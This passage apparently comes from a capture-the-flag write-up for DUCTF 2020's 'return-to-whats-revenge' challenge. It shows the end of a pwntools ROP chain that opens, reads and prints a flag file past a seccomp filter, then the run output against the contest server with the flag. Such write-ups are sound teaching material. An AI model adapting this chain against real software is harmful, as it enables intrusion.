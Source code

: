 ```python
pl += p64(len(flag_path))
pl += p64(libc.sym['read'])

# open(writeable_buf, 0) (0 is O_RDONLY)
pl += p64(pop_rdi)
pl += p64(writeable_buf)
pl += p64(pop_rsi_pop_r15)
pl += p64(0x0)
pl += b'B'*8
pl += p64(pop_rax)
pl += p64(0x2) # open
pl += p64(syscall)

# move previous return (rax) to rdi
pl += p64(push_rax_pop_rbx)
pl += p64(pop_rdx)
pl += p64(0x0)
pl += p64(test_edx_edx_jne)
pl += p64(mov_rdi_rbx_jne_pop_rbx)
pl += b'B'*8

# read(fd, writeable_buf)
pl += p64(pop_rsi_pop_r15)
pl += p64(writeable_buf)
pl += b'B'*8
pl += p64(pop_rdx)
pl += p64(64)
pl += p64(libc.sym['read'])

# puts(writeable_buf)
pl += p64(pop_rdi)
pl += p64(writeable_buf)
pl += p64(exe.plt['puts'])

io.sendline(pl)

io.sendline(flag_path)

io.interactive()
``` 

Let's run it!
```
[*] '/ctf/ductf20/return-to-whats-revenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/ctf/ductf20/return-to-whats-revenge'
[*] '/ctf/ductf20/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.duc.tf on port 30006: Done
[*] opening msg: b"Today, we'll have a lesson in returns.\nWhere would you like to return to?\n"
[*] __libc_start_main: 0x7f38d55ffab0
[*] opening msg: b"Today, we'll have a lesson in returns.\nWhere would you like to return to?\n"
[*] Switching to interactive mode
DUCTF{secc0mp_noT_$tronk_eno0Gh!!@}
8\x7f
[*] Got EOF while reading in interactive
```